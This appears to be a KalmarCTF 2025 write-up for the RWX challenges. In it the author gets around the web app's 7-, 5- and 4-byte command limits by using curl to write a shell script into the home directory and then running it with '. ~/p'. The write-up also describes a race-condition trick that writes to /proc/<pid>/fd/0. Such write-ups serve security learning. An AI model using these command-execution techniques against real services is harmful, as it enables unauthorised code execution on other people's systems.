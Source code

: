 ```yaml
---
staticPath: kalmarctf2025
Title: KalmarCTF 2025
Description: How to escape a python jail with only 14 characters
Date: 2025-03-10
---
```


## RWX - Bronze

I have read write and execute privileges. The goal is to execute the `would` binary with a specific argument to get it to leak the flag. The issue is that for the execute command, it's just piped into subprocess, I'm limited to 7 bytes

```python
if len(cmd) > 7:
	return 'Command too long', 400
```

```
> curl "http://localhost:6664/write?filename=pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: 'pwn.sh'
```

Let's try writing into /app

```
> curl "http://localhost:6664/write?filename=/app/pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: '/app/pwn.sh'**%**
```

/tmp?

```
> curl "http://localhost:6664/write?filename=/tmp/pwn.sh" -d "/would you be so kind to provide me with a flag"
OK
```


```
curl "http://localhost:6664/exec?filename=/tmp/pwn.sh"
```

No response :-( That's not even the right syntax. Oops


```
curl "http://localhost:6664/exec?cmd=/tmp/pwn.sh
Command too long
```

lets rewrite it use a shorter filename
```
curl "http://localhost:6664/write?filename=/tmp/p" -d "/would you be so kind to provide me with a flag"
```

```
curl "http://localhost:6664/exec?cmd=/tmp/p
Command too long
```

The trick is how do I actually call my script? Sh is installed. I then realized I could use `.` to run a shell script while reading about bash builtins. I also realized I could use the `~` alias.

```
curl "http://localhost:6664/exec?cmd=~/p"
```

Expands to /home/user/p which I think is useful because its shorter than /tmp

```
curl "http://localhost:6664/write?filename=~p" -d "/would you be so kind to provide me with a flag"
```

I don't think write expands the `~`



```
curl "http://localhost:6664/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "http://localhost:6664/exec?cmd=.%20~/p"
```

Ok


```
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"

kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}
```

## RWX - Silver

Same deal as Bronze but I'm limited to 5 bytes. Thankfully, my solve for bronze works for silver!

```
if len(cmd) > 5:
	return 'Command too long', 400
```

```
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"
OKkalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}
```

Yep

## RWX - Diamond

I didn't solve this problem during the CTF. However, I found the solution pretty interesting. It involved exploiting a race condition in order to execute bash commands. The exec command was limited to 4 bytes. You couldn't use the above solution because the user was created without a home directory. The first request started a sh session with `a|sh` this creates an sh process that lives briefly. The second request writes to `/proc/<pid>/fd/0` which then allows for command execution! Pretty cool and not something I would have thought of.